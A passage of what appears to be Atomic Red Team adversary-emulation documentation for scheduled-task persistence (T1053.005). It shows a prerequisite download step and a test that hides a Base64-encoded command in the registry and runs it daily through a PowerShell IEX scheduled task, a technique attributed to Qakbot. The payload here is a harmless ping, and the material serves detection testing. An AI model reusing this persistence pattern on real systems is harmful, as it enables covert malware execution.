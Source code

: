 ##### Check Prereq Commands:

```powershell
if (Test-Path "#{xml_path}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{xml_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1053.005/src/T1053_005_WMI.xml" -OutFile "#{xml_path}"
```

<br/>
<br/>

## Atomic Test #7 - Scheduled Task Executing Base64 Encoded Commands From Registry

A Base64 Encoded command will be stored in the registry (ping 127.0.0.1) and then a scheduled task will be created.
The scheduled task will launch powershell to decode and run the command in the registry daily.
This is a persistence mechanism recently seen in use by Qakbot.

[Additiona Information](https://thedfirreport.com/2022/02/07/qbot-likes-to-move-it-move-it/)

**Supported Platforms:** Windows

**auto_generated_guid:** e895677d-4f06-49ab-91b6-ae3742d0a2ba

#### Inputs:

| Name | Description                         | Type   | Default Value |
| ---- | ----------------------------------- | ------ | ------------- |
| time | Daily scheduled task execution time | string | 07:45         |

#### Attack Commands: Run with `command_prompt`!

```cmd
reg add HKCU\SOFTWARE\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyAxMjcuMC4wLjE= /f
schtasks.exe /Create /F /TN "ATOMIC-T1053.005" /TR "cmd /c start /min \"\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\\SOFTWARE\\ATOMIC-T1053.005).test)))" /sc daily /st #{time}
```

#### Cleanup Commands:

```cmd
schtasks /delete /tn "ATOMIC-T1053.005" /F >nul 2>&1
reg delete HKCU\SOFTWARE\ATOMIC-T1053.005 /F >nul 2>&1
```

<br/>
<br/>

## Atomic Test #8 - Import XML Schedule Task with Hidden Attribute
